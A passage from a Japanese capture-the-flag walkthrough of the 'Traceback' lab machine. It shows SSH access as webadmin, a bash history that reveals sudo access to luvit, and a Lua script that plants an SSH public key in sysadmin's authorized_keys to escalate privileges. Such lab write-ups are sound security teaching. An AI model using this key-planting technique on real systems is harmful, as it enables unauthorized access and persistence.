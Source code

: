 これで SSH すると無事に安定したシェルを得られます。

```
$ ssh -i ~/.ssh/traceback webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ 
```

先程の `ls` の結果を見つめ直すと `note.txt`, `.luvit_history` の興味深いファイルが見つかります。
前者の内容は以下です。後者は空でした。

```
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Lua の練習ツールを `sysadmin` が残してくれたらしいです。

続いてホームディレクトリ内のファイルを順番に見ていると以下のような興味深い履歴が見つかります。

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

どうやら `luvit` で権限昇格が出来るようです。  
[`luvit`](https://luvit.io/) は Node.js の API を使える Lua の処理系らしいです。  
これを使って `sysadmin` に `ssh` 出来るように `/home/sysadmin/.ssh/authorized_keys` の作成を試みます。

以下のコードを `/home/webadmin/privesc.lua` として書きます。キーの内容はクライアントマシンの `~/.ssh/traceback.pub` です。

```lua
local fs = require('fs')

fs.mkdirSync('/home/sysadmin/.ssh')

local pubkey = 'ssh-rsa xxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxx@xxxxxxxxxxxxxxxx'
fs.writeFileSync('/home/sysadmin/.ssh/authorized_keys', pubkey)
```
